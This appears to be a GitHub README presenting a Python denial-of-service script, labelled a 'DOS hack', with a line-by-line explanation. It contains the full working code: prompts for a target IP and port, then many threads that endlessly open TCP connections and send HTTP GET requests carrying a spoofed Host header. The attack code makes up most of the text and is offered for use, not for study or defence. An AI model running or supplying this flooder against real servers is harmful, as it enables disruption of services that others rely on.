 # DDOS-harshaD3

![Cool Typography Boo Halloween Store Logo](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/590fba29-1f58-45de-9ebc-4e8b603d14f0)

# DOS hack python script ...........!

*import socket
*import threading

-->These lines import necessary modules from Python's standard library. socket is used for creating network sockets, and threading is used for creating and managing threads.

target = input("Insert target’s IP: ")
port = int(input("Insert Port: "))
num_threads = int(input("Insert number of Threads: "))

-->These lines prompt the user to input the IP address of the target server, the port number to attack, and the number of threads (connections) to create for the attack. The input() function is used to take input from the user, and int() is used to convert the input to integers where necessary.

![image](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/36e370c6-71f7-4174-afa5-e90ac4d8edac)

fake_ip = '44.197.175.168'
attack_num = 0

-->Here, fake_ip is assigned a dummy IP address which will be used in the forged HTTP request header. attack_num is initialized to keep track of the number of requests sent during the attack.

def attack():
    global attack_num
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target, port))
            s.send(f"GET /{target} HTTP/1.1\r\n".encode('utf-8'))
            s.send(f"Host: {fake_ip}\r\n\r\n".encode('utf-8'))
            s.close()
            attack_num += 1
            print(f"Attack number: {attack_num}")
        except Exception as e:
            print(f"Error: {e}")
            
-->This function attack() is defined to simulate the DoS attack. It continuously tries to establish a connection to the target server using TCP/IP sockets (socket.socket()), sends a fake HTTP GET request with a forged IP address in the header, increments the attack_num counter, and prints the number of attacks. If an exception occurs during the attack, it prints the error message.


threads = []
for _ in range(num_threads):
    thread = threading.Thread(target=attack)
    thread.start()
    threads.append(thread)
    
-->These lines create a list threads to store the threads created for the attack. It then creates the specified number of threads (num_threads) by looping through and calling the attack() function as the target for each thread. Each thread is started (thread.start()) and added to the threads list.
for thread in threads:
    thread.join()
    
-->Finally, this loop waits for all threads to finish executing (thread.join()). It ensures that the main program waits for all threads to complete before it terminates.



Importing Libraries:

python
Copy code
import socket
import threading
